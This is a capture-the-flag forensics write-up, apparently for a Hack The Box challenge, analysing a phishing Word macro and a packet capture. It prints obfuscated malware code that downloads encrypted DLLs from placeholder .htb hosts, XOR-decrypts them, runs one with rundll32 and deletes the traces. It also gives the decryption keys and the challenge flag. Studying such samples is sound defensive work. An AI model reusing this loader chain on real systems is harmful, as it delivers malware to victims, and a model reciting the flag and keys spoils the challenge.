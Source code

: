 # MBCoin

MBCoin was a medium Forensics challenge with only downloadable files.

### Challenge pretext:

We have been actively monitoring the most extensive spear-phishing campaign in recent history for the last two months. This campaign abuses the current crypto market crash to target disappointed crypto owners. A company's SOC team detected and provided us with a malicious email and some network traffic assessed to be associated with a user opening the document. Analyze the supplied files and figure out what happened.

The zip file consisted of 2 files:  **mbcoin.doc** and **mbcoin.pcapng**.

### mbcoin.doc
**mbcoin.doc** was an old Microsoft Word 97 - 2003 Document (.doc) format.  The file, when opened, showed a word document with the following text:

```
Hello,

Are you wondering about how you can make more money through a smarter investment? If you have looked at the profits available from cryptocurrency and thought it was too late, now is your chance. Get in on the ground floor today with the announcement of MBCoin.

You may be eligible for free MBCoin! Make sure to click “Enable Content” and this document will calculate how much MBCoin you’ve won.

Happy Investing to the Moon,

Monkey Business Investments
```
https://i.imgur.com/i24NXcT.png

The document had a macro that was set to run on AutoOpen (when document is loaded).
https://i.imgur.com/pajYgdX.png

Analyzed the VBA code, it looks to take 2 strings from the document somewhere (`ActiveDocument.Shapes(1)` and `(2)`) and write them to a file c:\\ProgramData\\pin.vbs, then execute it with: `cmd /k cscript.exe c:\ProgramData\pin.vbs`

When unzipping the .doc file with 7-zip I found a few other files that did not show up the first time, when using linux unzip.  Not sure why this was:
https://i.imgur.com/2x1RuiS.png

Inside the 1Table file, found plenty of VBA code with obfuscated Powershell commands. This looks to be the contents of the pin.vbs:
```
 L L 1   =   " $ N a n o = ' J O O E X ' . r e p l a c e ( ' J O O ' , ' I ' ) ; s a l   O Y   $ N a n o ; $ a a = ' ( N e w - O b ' ;   $ q q = ' j e c t   N e ' ;   $ w w = ' t . W e b C l i ' ;   $ e e = ' e n t ) . D o w n l ' ;   $ r r = ' o a d F i l e ' ;   $ b b = ' ( ' ' h t t p : / / p r i y a c a r e e r s . h t b / u 9 h D Q N 9 Y y 7 g / p t . h t m l ' ' , ' ' C : \ P r o g r a m D a t a \ w w w 1 . d l l ' ' ) ' ; $ F O O X   = ( $ a a , $ q q , $ w w , $ e e , $ r r , $ b b , $ c c   - J o i n   ' ' ) ;   O Y   $ F O O X | O Y ; " 
 
 L L 2   =   " $ N a n o z = ' J O O E X ' . r e p l a c e ( ' J O O ' , ' I ' ) ; s a l   O Y   $ N a n o z ; $ a a = ' ( N e w - O b ' ;   $ q q = ' j e c t   N e ' ;   $ w w = ' t . W e b C l i ' ;   $ e e = ' e n t ) . D o w n l ' ;   $ r r = ' o a d F i l e ' ;   $ b b = ' ( ' ' h t t p s : / / p e r f e c t d e m o s . h t b / G v 1 i N A u M K Z / j v . h t m l ' ' , ' ' C : \ P r o g r a m D a t a \ w w w 2 . d l l ' ' ) ' ; $ F O O X   = ( $ a a , $ q q , $ w w , $ e e , $ r r , $ b b , $ c c   - J o i n   ' ' ) ;   O Y   $ F O O X | O Y ; " 

[...]
 
 M M 1   =   " $ b   =   [ S y s t e m . I O . F i l e ] : : R e a d A l l B y t e s ( ( ( ' C : G P H ' + ' p r ' + ' o g ' + ' r a ' + ' m d a t a G ' + ' P H w w w 1 . d ' + ' l l ' )     - C r e P L a c E ' G P H ' , [ C h a r ] 9 2 ) ) ;   $ k   =   ( ' 6 i ' + ' I ' + ' g l ' + ' o ' + ' M k 5 ' + ' i R Y A w ' + ' 7 Z ' + ' T W e d 0 C r ' + ' j u Z 9 w i j y Q D j ' + ' K O ' + ' 9 M s 0 D 8 K 0 Z 2 H 5 M X 6 w y O K q F x l ' + ' O m 1 ' + ' X ' + ' p j m Y f a Q X ' + ' a c A 6 ' ) ;   $ r   =   N e w - O b j e c t   B y t e [ ]   $ b . l e n g t h ;   f o r ( $ i = 0 ;   $ i   - l t   $ b . l e n g t h ;   $ i + + ) { $ r [ $ i ]   =   $ b [ $ i ]   - b x o r   $ k [ $ i % $ k . l e n g t h ] } ;   i f   ( $ r . l e n g t h   - g t   0 )   {   [ S y s t e m . I O . F i l e ] : : W r i t e A l l B y t e s ( ( ( ' C : Y 9 A p r o ' + ' g r a m d a t ' + ' a ' + ' Y ' + ' 9 A w w w ' + ' . d ' + ' l l ' ) . R E p L a c e ( ( [ c h A r ] 8 9 + [ c h A r ] 5 7 + [ c h A r ] 6 5 ) , [ s T r i N g ] [ c h A r ] 9 2 ) ) ,   $ r ) } " 
 
 M M 2   =   " $ b   =   [ S y s t e m . I O . F i l e ] : : R e a d A l l B y t 
 
 [...]
 
 S e t   R a n   =   C r e a t e O b j e c t ( " w s c r i p t . s h e l l " ) 
 R a n . R u n   H H 0 + M M 1 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 2 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 3 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 4 , C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 5 0 0 ) 
 R a n . R u n   H H 0 + M M 5 , C h r ( 4 8 ) 
 
 W S c r i p t . S l e e p ( 1 5 0 0 0 ) 
 O K 1   =   " c m d   / c   r u n d l l 3 2 . e x e   C : \ P r o g r a m D a t a \ w w w . d l l , l d r " 
 O K 2   =   " c m d   / c   d e l   C : \ p r o g r a m d a t a \ w w w * " 
 O K 3   =   " c m d   / c   d e l   C : \ p r o g r a m d a t a \ p i n * " 
 R a n . R u n   O K 1 ,   C h r ( 4 8 ) 
 W S c r i p t . S l e e p ( 1 0 0 0 ) 
 R u n . R u n   O K 2 ,   C h r ( 4 8 )
 
 ```
 
 After studying the code for a while, I figured out that 5 dll files were being downloaded and decrypted on the machine: in LL1, pt.html is being downloaded from priyacareers.htb, then saved as www1.dll.  Then later on in MM1, the www1.dll file is decrypted and then saved as www.dll. 
 
 At the bottom of the code, the only dll that appears to actually be run is www.dll.  So it looks like the last file that successfully downloads is the actual www.dll, the others are never run. Looks like it loads a function 'ldr'.

I then uploaded the mbcoin.doc file to an online sandbox, https://any.run so I could watch it explode and capture any other possible clues easily, even though the domains it reaches out to don't look to exist in the real world.  Noticed the last step is the execution of rundll32.exe www.dll,ldr file just as I expected.
https://app.any.run/tasks/95061781-61c3-4dd6-bf3e-e5fcea6db905
https://i.imgur.com/cZsoNq7.png

### mbcoin.pcapng
**mbcoin.pcapng** is a packet capture file.  Therer were 4 different IPv4 conversations in total- 
1) some DNS requests to  10.1.1.5
2) a suspicious request to 192.0.2.111/ByH5NDoE3kQA/vm.html (cablingpoint.htb) 
3) a request to a missing page 203.0.113.223/ze8pCNTIkrIS/wp.html (business-z.htb)
4) a suspicious request to 10.1.1.163/u9hDQN9Yy7g/pt.html (priyacareers.htb)

The suspicious requests look to contain encrypted data:

```
GET /u9hDQN9Yy7g/pt.html HTTP/1.1
Host: priyacareers.htb
Connection: Keep-Alive
 

HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.8.10
Date: Wed, 29 Jun 2022 14:04:59 GMT
Content-type: text/html
Content-Length: 10752
Last-Modified: Wed, 29 Jun 2022 13:32:37 GMT


{3.gooMk1iRY..7Z.Wed0Crj5Z9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm0Xpdr.ha.Q.B.7z.h3..>KE.=>3.Zz76.
_7R..zK..J.?d.... .T!.F=P.H5MX6wy{.......A.......(.l.3...[...?...@...M...w...
...+...
.../.......;...........8.......).......)...........9\
:)...ZTWed0CrjuZ9wijy..jK+.Ks...)0Z2H5MX6.ymkzDvsO}1XpvmYfaQX.pA66yIgloM.4iRYAg7ZTUed6CrjuZ9wojyQDjKO9=s0D<K0Z2H5OXVvyO[qFxlOm!XpjmYfaQHacA66iYgloMk5iRYAg7ZT.Md0.rjun.wi.yQDj.O9.s0D8.0Z.I5MX6wyOKqFx.Om.Xpj.zfa!XacA66iIgloMk5iRYAw7ZTWed0CBHuZyvijyQDjKO9Ms.D8.0Z2H5MX6wyOKqFxlOm1XpjmYfaQv..9B6iI.boMk%iRYQw7ZPWed0CrjuZ9wijyqDj+aK).D%8K.W2H5mX6wwOKqRxlOm1XpjmYfaQX!cAv.
[...]
```

Saved these files from 2) and 4) to vm.html and pt.html, by extracting all files via HTTP in Wireshark: File - Export Objects - HTTP - Save all

Copied/modified some of the powershell to decrypt the files and save them:

(Thanks to my co-worker Aaron for noticing the keys ARE different, by a couple characters in the middle, explaining why my files were not ever decrypting quite properly!)

```
$dir="C:\temp\mbcoin"

sl $dir
$fnames=@("pt.html",
          "vm.html")
$keys=@("6iIgloMk5iRYAw7ZTWed0CrjuZ9wijyQDjKO9Ms0D8K0Z2H5MX6wyOKqFxlOm1XpjmYfaQXacA6",
        "6iIoNoMk5iRYAw7ZTWed0CrjuZ9wijyQDjPy9Ms0D8K0Z2H5MX6wyOKqFxlOm1GpjmYfaQXacA6")

$x=0
foreach ($fname in $fnames) {
  $b = [System.IO.File]::ReadAllBytes("$($dir)\$($fname)"); 
  $k = $keys[$x]
  $r = New-Object Byte[] $b.length; 
  for($i=0; $i -lt $b.length; $i++) { 
    $r[$i] = $b[$i] -bxor $k[$i%$k.length]
  }
  if ($r.length -gt 0) { 
    [System.IO.File]::WriteAllBytes("$($dir)\$($fname).txt", $r)
  }
  $x+=1
}
```

Renamed both of these files pt.html.txt to www1.dll, and vm.html.txt to www4.dll.
Finally, at this point, I had a valid www1.dll and www4.dll.  

Ended up opening Ghidra to see what each dll does.  In www1.dll there was a note 'Are you sure this was the DLL loaded on the system?' which I had noticed earlier by browsing the binary.  This file was copied over and never run.

In www4.dll, I browsed to the ldr function, and found the flag:
https://i.imgur.com/Fbxr43I.png

Overall this challenge took me way longer than expected, as first I could not find the contents of pin.vbs since I was using linux unzip instead of 7-zip, and all my other attempts with oletools did not show it either, until I was able to see it in any.run (sandbox).

HTB{wH4tS_4_sQuirReLw4fFl3?}
